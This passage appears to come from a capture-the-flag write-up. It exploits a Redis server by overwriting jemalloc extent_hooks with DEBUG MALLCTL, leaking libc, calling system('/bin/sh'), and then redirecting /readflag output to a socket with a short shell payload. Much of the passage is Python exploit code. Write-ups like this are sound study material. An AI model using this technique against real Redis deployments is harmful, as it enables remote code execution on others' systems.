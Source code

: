Through trial and error, I found out that the easiest of the two functions to trigger are `alloc` and `dealloc`, unsurprisingly. And `dealloc` appears to get called after disconnecting. The arguments to these functions are not controlled, except for the fact that RDI is pointing to the start of the table (ie. `arena.<num>.extent_hooks`).

This gives us the ability to call an arbitrary function with a controlled string as the first argument, with a maximum of 8 bytes (including null terminator). This will only work if we can avoid any calls to `alloc`, since that will have been clobbered by the string.

At first, I just put `/bin/sh\0` as the string, and was able to successfully get system called.

```
arena = run("DEBUG MALLCTL arenas.create")

# jemalloc leak
lib_leak = run(f"DEBUG MALLCTL arena.{arena}.extent_hooks")

# libc leak
mmap_leak_addr = lib_leak + 0x3810 # got (mmap) in jemalloc
libc_leak = arbitary_read(mmap_leak_addr)

# offset to system
system_addr = libc_leak + (0x50d60 - 0x11ebc0)
s = b"/bin/sh\0"
print(f"[+] system: {hex(system_addr)}")

# Make some allocations for our table of function pointers
# (really we only use one of these)
run(b"DEBUG LEAK 00000"+(s + p64(system_addr) + p64(0) * 7))
run(b"DEBUG LEAK 00000"+(s + p64(system_addr) + p64(0) * 7))
run(b"DEBUG LEAK 00000"+(s + p64(system_addr) + p64(0) * 7))
run(b"DEBUG LEAK 00000"+(s + p64(system_addr) + p64(0) * 7))

addr_of_fake_table = ... # offset from lib_leak, determined experimentally
run(f"DEBUG MALLCTL thread.arena {arena}")
run(f"DEBUG MALLCTL arena.{arena}.extent_hooks {addr_of_fake_table}")
```

From here, the exploit reliability was a little shaky. I played around with it, and found that it seems more reliable if I do some extra allocations and open some more connections immediately before overwriting `extent_hooks`. The idea is to increase the likelihood that `dealloc` gets called before `alloc`.

This got me a shell in the docker container! But we can't interact with it on remote, since remote does not provide the stdout/stderr of the `redis` process. We need to do better...

I was talking with @f0xtr0t and we had the idea to try writing directly to the fd that was being used for our `redis-cli` connection.

```
root@c62bf56792ad:/# ls -al /proc/1/fd/
total 0
dr-x------ 2 redis redis  0 Jan 14 06:52 .
dr-xr-xr-x 9 redis redis  0 Jan 14 06:52 ..
lrwx------ 1 redis redis 64 Jan 14 06:52 0 -> /dev/pts/0
lrwx------ 1 redis redis 64 Jan 14 06:52 1 -> /dev/pts/0
lrwx------ 1 redis redis 64 Jan 14 06:52 2 -> /dev/pts/0
lr-x------ 1 redis redis 64 Jan 14 06:52 3 -> 'pipe:[51313]'
l-wx------ 1 redis redis 64 Jan 14 06:52 4 -> 'pipe:[51313]'
lrwx------ 1 redis redis 64 Jan 14 06:52 5 -> 'anon_inode:[eventpoll]'
lrwx------ 1 redis redis 64 Jan 14 06:52 6 -> 'socket:[51317]'
lrwx------ 1 redis redis 64 Jan 14 07:35 7 -> 'socket:[50697]'
```
In the container, it looks like our socket is probably 6 or 7. Really we just want to read the flag, and we came up with `/r*>&7\0` (only 7 bytes!) and will call /readflag and forward us the output. I tried both 6 and 7, and 7 worked! The only slightly tricky part is getting the Python redis client's socket so you can call a raw recv() and get the flag when it is sent. But here's how I did that:
